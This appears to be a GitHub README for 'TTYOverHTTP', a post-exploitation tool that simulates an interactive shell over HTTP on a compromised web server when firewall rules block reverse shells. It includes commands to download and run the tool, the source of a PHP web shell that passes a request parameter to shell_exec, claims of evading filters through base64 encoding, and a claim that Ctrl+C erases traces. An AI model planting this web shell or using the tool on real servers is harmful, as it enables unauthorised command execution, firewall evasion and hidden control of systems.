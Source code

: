 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
```shell
sudo python3 tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
Sometimes when we compromise a web server, there are configured rules (**Ex: iptables**) that prevent us from obtaining a Reverse Shell via Netcat, Python, or another utility.

 With this tool, we avoid having to use a reverse shell to
 obtain a TTY later fully interactive.  Through files
 '**mkfifo**', we play to simulate an interactive TTY over HTTP, achieving
 manage the system comfortably without any type of problem.

 The only thing we need is to upload a PHP structure like the following to the compromised server to execute commands:
```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

 After its execution, you'll have a tty that will allow you to execute commands that the firewall or other filters were filtering with base64encode. Also will simulate commands like "cd.." or "pwd", to navigate between directories comfortably with mkfifo, JUST LIKE AN INTERACTIVE TTY!!
 Ctrl+C to erase any trace.

